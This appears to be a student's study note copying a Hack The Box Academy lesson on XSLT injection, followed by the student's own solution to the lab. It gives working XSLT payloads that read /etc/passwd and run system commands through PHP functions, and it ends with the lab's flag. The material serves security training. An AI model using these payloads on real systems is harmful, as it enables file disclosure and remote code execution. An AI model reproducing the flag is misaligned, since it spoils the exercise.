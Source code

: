 ﻿---
sticker: lucide//languages
---
After discussing some basics and use cases for XSLT, let us dive into exploiting XSLT injection vulnerabilities. ---

## Identifying XSLT Injection

Our sample web application displays basic information about some Academy modules:

 ![](https://academy.hackthebox.com/storage/modules/145/xslt/xslt_exploitation_1.png)

At the bottom of the page, we can provide a username that is inserted into the headline at the top of the list:

 ![](https://academy.hackthebox.com/storage/modules/145/xslt/xslt_exploitation_2.png)

As we can see, the name we provide is reflected on the page. Suppose the web application stores the module information in an XML document and displays the data using XSLT processing. In that case, it might suffer from XSLT injection if our name is inserted without sanitization before XSLT processing. To confirm that, let us try to inject a broken XML tag to try to provoke an error in the web application. We can achieve this by providing the username`<`:

 ![](https://academy.hackthebox.com/storage/modules/145/xslt/xslt_exploitation_3.png)

As we can see, the web application responds with a server error. While this does not confirm that an XSLT injection vulnerability is present, it might indicate the presence of a security issue.

---

## Information Disclosure

We can try to infer some basic information about the XSLT processor in use by injecting the following XSLT elements:


```xml
Version: <xsl:value-of select="system-property('xsl:version')" />
<br/>
Vendor: <xsl:value-of select="system-property('xsl:vendor')" />
<br/>
Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" />
<br/>
Product Name: <xsl:value-of select="system-property('xsl:product-name')" />
<br/>
Product Version: <xsl:value-of select="system-property('xsl:product-version')" />
```

The web application provides the following response:

 ![](https://academy.hackthebox.com/storage/modules/145/xslt/xslt_exploitation_4.png)

Since the web application interpreted the XSLT elements we provided, this confirms an XSLT injection vulnerability. Furthermore, we can deduce that the web application seems to rely on the`libxslt` library and supports XSLT version`1.0`.

---

## Local File Inclusion (LFI)

We can try to use multiple different functions to read a local file. Whether a payload will work depends on the XSLT version and the configuration of the XSLT library. For instance, XSLT contains a function`unparsed-text` that can be used to read a local file:

```xml
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />
```

However, it was only introduced in XSLT version 2.0. Thus, our sample web application does not support this function and instead errors out. However, if the XSLT library is configured to support PHP functions, we can call the PHP function`file_get_contents` using the following XSLT element:


```xml
<xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />
```

Our sample web application is configured to support PHP functions. As such, the local file is displayed in the response:

 ![](https://academy.hackthebox.com/storage/modules/145/xslt/xslt_exploitation_5.png)

---

## Remote Code Execution (RCE)

If an XSLT processor supports PHP functions, we can call a PHP function that executes a local system command to obtain RCE. For instance, we can call the PHP function`system` to execute a command:

```xml
<xsl:value-of select="php:function('system','id')" />
```

 ![](https://academy.hackthebox.com/storage/modules/145/xslt/xslt_exploitation_6.png)

# Question
---

![Pasted image 20250212153714.png](../../../../IMAGES/Pasted%20image%2020250212153714.png)

Let's begin by identifying if the web application is vulnerable to XSLT:

![Pasted image 20250212153742.png](../../../../IMAGES/Pasted%20image%2020250212153742.png)

If we use a test username, we can see it gets injected into the top side of the website, let's use `<` and check if an error occurs:

![Pasted image 20250212153834.png](../../../../IMAGES/Pasted%20image%2020250212153834.png)

Page is broken, which means its vulnerable to XSLT, we can get RCE by submitting the following payload:

```xml
<xsl:value-of select="php:function('system','id')" />
```

![Pasted image 20250212153929.png](../../../../IMAGES/Pasted%20image%2020250212153929.png)

We got RCE, let's read `/` directory:

```xml
<xsl:value-of select="php:function('system','ls /')" />
```

![Pasted image 20250212153953.png](../../../../IMAGES/Pasted%20image%2020250212153953.png)

Found our flag:

```xml
<xsl:value-of select="php:function('system','cat /flag.txt')" />
```

![Pasted image 20250212154014.png](../../../../IMAGES/Pasted%20image%2020250212154014.png)

Flag is:

```
HTB{3a4fe85c1f1e2b61cabe9836a150f892}
```

